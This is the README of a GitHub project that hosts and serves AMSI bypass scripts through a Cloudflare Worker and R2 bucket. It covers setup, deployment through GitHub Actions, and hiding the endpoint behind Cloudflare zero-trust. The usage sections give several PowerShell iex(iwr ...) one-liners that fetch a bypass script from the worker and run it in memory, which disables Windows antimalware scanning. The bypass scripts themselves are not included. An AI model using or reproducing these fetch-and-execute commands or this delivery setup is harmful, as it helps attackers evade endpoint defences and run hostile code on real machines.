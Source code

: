 # AMSI-R2

## Summary

Easy access to your amsi bypass script with Cloudflare workers and R2 bucket

## Description

Cloudflare worker function that selects a AMSI bypass file from a folder in a Cloudflare R2 bucket. The idea came from [Flangvik](https://twitter.com/Flangvik) [AMSI.fail](https://github.com/Flangvik/AMSI.fail).

## Features

- Using Cloudflare Workers and R2 feature (free tier is enough)
- Protect your endpoint behind CF zero-trust (free for 1-50 users)
- Deploy with Github actions

## Things you need

- Cloudflare account (you will need your account id)
- Cloudflare API token. Doc [here](https://developers.cloudflare.com/fundamentals/api/get-started/create-token/)
- Create a R2 bucket
- In your new R2 bucket, create a folder which will contain your AMSI bypass scripts. And obviously... add your scripts in that folder.
- Fork or clone the project
- Setup [Github secrets repository](https://docs.github.com/en/actions/learn-github-actions/variables#creating-configuration-variables-for-a-repository)
- A [domain setup in CF](https://developers.cloudflare.com/fundamentals/get-started/setup/add-site/) to use the [custom domain feature](https://developers.cloudflare.com/workers/configuration/routing/custom-domains/).
- You don't have to do any modifcation in `wrangler.toml` (except if you want to change the name of your worker or if you don't want to use a custom domain). We are using Github secrets to setup the `wrangler.toml` file.

note: to use without custom domain(not recommended), you will need to modify 2 things:

- remove the 3rd sed command in `.github/workflows/deploy.yml`
- remove the route section in `wrangler.toml`

## Installation

```bash
# fork the project
# setup secrets, R2, etc.
git clone https://github.com/<your-user>/AMSI-R2.git
cd AMSI-R2
# ...
git push -u origin main
# go see your workers in cloudflare interface
```

## How to use

```bash
# ex: random
curl https://subdomain.yourdomain.com/<folder-name>
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>');
# specific amsi bypass script
curl https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>');
###
curl https://amsi-r2.example.com/amsibypass
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass');
#
curl https://amsi-r2.example.com/amsibypass?payload=2
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2');
```

## How to use with CF zero-trust

- Generate [service auth token](https://developers.cloudflare.com/cloudflare-one/identity/service-tokens/).
- Add worker domain in CF zero-trust [application section](https://developers.cloudflare.com/cloudflare-one/applications/configure-apps/self-hosted-apps/). During the creation, setup a rule that allows your service token.

```bash
# curl command to access behind the zero-trust
curl https://amsi-r2.example.com/amsibypass -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
#
curl https://amsi-r2.example.com/amsibypass?payload=2 -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
```

## Todo

Integrate the logic/obfuscation of [AMSI.fail](https://github.com/Flangvik/AMSI.fail)

## More ?

You want something with a UI ? Take a look at [Some-R2-Explorer](https://github.com/service-yack/Some-R2-Explorer)

## Credits

- [Flangvik](https://twitter.com/Flangvik)
- [somecanadian](https://github.com/som3canadian)
